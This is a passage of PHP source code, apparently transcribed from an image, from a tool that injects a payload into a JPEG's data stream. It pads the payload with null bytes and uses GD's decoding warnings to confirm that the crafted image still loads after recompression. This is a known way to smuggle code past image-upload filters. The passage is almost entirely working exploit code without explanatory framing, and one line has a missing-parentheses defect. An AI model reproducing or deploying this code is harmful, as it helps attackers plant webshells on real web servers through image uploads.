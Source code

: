 ```php
                    if($dis->readByte() === 0xFF) {
                        if($dis->readByte !== 0x00) {
                            break;
                        }
                    }
                }
                $stopPos = $dis->seek() - 2;
                $imageStreamSize = $stopPos - $startPos;
                $outStream =
                    substr($outStream, 0, $startPos) .
                    $miniPayload .
                    substr(
                        str_repeat("\0",$nullbytePayloadSize).
                        substr($outStream, $startPos, $imageStreamSize),
                        0,
                        $nullbytePayloadSize+$imageStreamSize-$extraBytes) .
                    substr($outStream, $stopPos);
            } elseif($correctImage) {
                $outStream = $outStreamTmp;
            } else {
                break;
            }
            if(checkImage('payload_'.$argv[1], $outStream)) {
                die('Success!');
            } else {
                break;
            }
        }
    }
}
unlink('payload_'.$argv[1]);
die('Something\'s wrong');
function checkImage($filename, $data, $unlink = FALSE) {
    global $correctImage;
    file_put_contents($filename, $data);
    $correctImage = TRUE;
    imagecreatefromjpeg($filename);
    if($unlink)
        unlink($filename);
    return $correctImage;
}
function custom_error_handler($errno, $errstr, $errfile, $errline) {
    global $extraBytes, $correctImage;
    $correctImage = FALSE;
    if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
        if(isset($m[1])) {
            $extraBytes = (int)$m[1];
        }
    }
}
class DataInputStream {
    private $binData;
    private $order;
    private $size;
    public function __construct($filename, $order = false, $fromString = false) {
        $this->binData = '';
        $this->order = $order;
        if(!$fromString) {
            if(!file_exists($filename) || !is_file($filename))
                die('File not exists ['.$filename.']');
            $this->binData = file_get_contents($filename);
        } else {
            $this->binData = $filename;
```